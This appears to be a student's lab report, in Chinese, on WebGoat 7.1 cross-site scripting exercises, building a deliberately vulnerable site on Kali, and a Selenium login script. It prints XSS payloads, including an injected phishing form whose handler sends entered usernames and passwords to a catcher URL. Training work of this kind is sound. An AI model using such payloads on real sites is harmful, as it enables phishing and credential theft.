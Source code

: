 # xxs-web
## 实验要求
- [x] 找一个具有xss漏洞的网页理解xss漏洞的原理。
- [x] 自己写一个具有xss漏洞的网页（推荐django）,包括登录页面和评论页面（每个用户都可以看到其他用户的评论内容、用户id、评论时间）
- [x] 写一个自动化脚本，使用selenium自动提交表单登录网站，进入论坛页面，并爬取论坛中的信息
## 实验步骤
### xss漏洞
#### 实验环境
kali虚拟机上使用webgoat(即：不是开发者版本)
![](images/dockerps.png)
firefox设置了代理并使用burp suite拦截流量。
![](images/proxy.png)
实验使用webgoat7.1,完成了第九章Cross-Site Scripting(XSS)的学习和练习
#### webgoat7.1-xss漏洞实验步骤
[webgoat攻略](https://www.cnblogs.com/yangmzh3/p/7542018.html)
##### 1. Phishing with XSS
目标：通过XSS添加一个表单让受害者输入用户名和密码，达到钓鱼的结果。
输入代码，搜索任意字符串尝试：```</form><form name="phish"><br/><br/><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br/><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br></form><br><br><HR> ```
![](images/phishxss-1.png)
burp suite拦截结果如下：
![](images/phishxss-2.png)
根据题目要求搜索目标字符串，输入：```<form><br/><br/><HR><H3>This feature requires account login:</H3><br/><br/>Enter Username:<br/><input type="text" id="user" name="user"><br/>Enter Password:<br/><input type="password" name = "pass" id="pass"><br/><input type="submit" name="login" value="login" οnclick="var user=document.getElementById('user');var pass=document.getElementById('pass');alert('Had this been a real attack... Your credentials were just stolen. User Name = ' + user.value + 'Password = ' + pass.value);var XSSImage=new Image; XSSImage.src='http://127.0.0.1:8087/WebGoat/catcher?PROPERTY=yes&user='+ user.value + '&password=' + pass.value + '';"><br/><br/><HR></form>```,得到新的结果如下图，过关：
![](images/phishxss-2.png)
##### 2. LAB：Cross Site Scripting
###### 2.1 Stage 1:Stored XSS
目标：更改tom用户的信息（注入代码）,当Jerry用户访问的时候弹出弹窗。  
选择任意一个输入框，输入注入代码：```<script>alert('XSS')</script>```
![](images/lab1-1.png)
保存，登录'Jerry',访问Tom的资料，看到弹出框
###### 2.2 Stage 2:Block Stored XSS using Input Validation
目标：输入验证（采用过滤技术）阻止存储式xss攻击  
由于需要开发者版本，放弃
![](images/lab2-1.png)
###### 2.3 Stage3:Stored XSS Revisited
目标：使用另外两个用户('Bruce' 和 'David')访问，重复2.1的操作。正常情况由于有了2.2的操作，就不会再有弹窗，由于不是开发者版本，因此还会有弹窗。由于实验重复，没有复现的必要，进行下一步。
###### 2.4 Stage4:Block Stored XSS using Output Encoding
目标：输入验证（采用编码技术）阻止存储式xss攻击
![](images/lab4-1.png)
###### 2.5 Stage5:Reflected XSS
目标：方式和2.1一样，不同的是，2.1是更改存储的数据，当访问的时候弹出窗口，影响别人。这里是使用任意用户（比如Larry）登陆后，'searchfile'中注入代码，影响自己。
![](images/lab5-1.png)
得到效果，看到下方显示通过。
![](images/lab5-2.png)
![](images/lab5-3.png)
###### 2.6 Stage6:Block Reflected XSS
目标：仿照2.2开发防止反射式xss  
需要开发者版本，放弃。
![](images/lab6-1.png)
##### 3. Stored XSS Attacks
如下图输入注入代码
![](images/xssattack-1.png)
得到结果
![](images/xssattack-2.png)
##### 4. Reflected XSS Attacks 
如下图利用漏洞
![](images/xssattack2-1.png)
得到结果，并可以看到通关信息
![](images/xssattack2-2.png)
## xss-web网页搭建
[xss搭建教程](https://blog.csdn.net/u011781521/article/details/53895363)
使用kali搭建，scp将文件夹内容拷贝到kali
>xsserme文件夹,在config.php中更改数据库连接信息
* 由于之前搭建蜜罐无法ssh[解决办法](https://blog.csdn.net/qq_37458055/article/details/75205282)  

[kali安装mysql教程](https://www.cnblogs.com/faithfu/p/10278163.html)
网页效果如下：
![](images/webpage.png)
## 自动化脚本
由于到提交时间我还没有做出来，我登陆爬取了别的网站，学习使用selenium。[代码来源](https://blog.csdn.net/chenpe32cp/article/details/54232353)登录以后发现已经和以前不一样了，因为现在登录进去以后增加了新的短信验证。
>spider.py
![](images/login.png)
